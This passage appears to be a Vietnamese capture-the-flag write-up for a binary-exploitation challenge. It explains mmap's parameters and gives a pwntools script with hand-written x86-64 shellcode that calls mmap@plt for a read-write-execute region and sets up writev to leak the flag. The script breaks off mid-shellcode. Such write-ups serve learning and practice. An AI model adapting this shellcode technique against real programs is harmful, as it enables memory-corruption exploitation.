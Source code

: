 ```
addr: Địa chỉ cơ sở gợi ý nơi vùng nhớ được ánh xạ. Thông thường, giá trị này được đặt là NULL, để hệ thống tự chọn vị trí phù hợp.

length: Độ dài của vùng nhớ cần ánh xạ (tính bằng byte).

prot: Quyền truy cập của vùng nhớ ánh xạ. Các giá trị phổ biến:

PROT_READ: Cho phép đọc.
PROT_WRITE: Cho phép ghi.
PROT_EXEC: Cho phép thực thi.
PROT_NONE: Không cho phép truy cập.
flags: Điều khiển hành vi ánh xạ. Một số giá trị thường dùng:

MAP_SHARED: Các thay đổi được ghi vào bộ nhớ cũng được ghi vào tập tin và có thể thấy bởi các tiến trình khác.
MAP_PRIVATE: Tạo bản sao của dữ liệu ánh xạ; thay đổi không ảnh hưởng đến tập tin gốc.
MAP_ANONYMOUS: Không ánh xạ tới tập tin; tạo vùng nhớ ảo rỗng.
fd: Mô tả tập tin (file descriptor) của tập tin cần ánh xạ. Nếu dùng MAP_ANONYMOUS, giá trị này thường là -1.

offset: Vị trí bắt đầu ánh xạ trong tập tin (tính bằng byte). Phải là bội số của kích thước trang (page size).
```

- ờ đây ta có địa chỉ exe sẵn , ta sẽ tính base và tính địa chỉ ```plt``` và chuyển nó sang thanh ghi khác , setup các đối số để call ```mmap_plt```

- ta cần setup tương ứng trong giống trong bài 

![image](https://hackmd.io/_uploads/BkC2gi_Dyl.png)


![image](https://hackmd.io/_uploads/SJjelsOvyl.png)


script 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./challenge',checksec=False)
context.arch = 'amd64'
p = process()


gdb.attach(p,gdbscript='''
           b*main+374
           '''
           )
shellcode = f'''
    pop r14    // lay dia chi exe
    sub r14,0x5e3  // change thanh mmap@plt
    mov esi,0x1000  // setup for mmap
    mov edx,0x7
    mov r9,0
    mov r8,-1
    mov ecx,0x22
    call r14
    add rax,0x2000  // change to address of flag
    push 0x100    // setup writev
    push rax
    mov rdi,1
    mov rdx,1
    mov rsi,rsp
```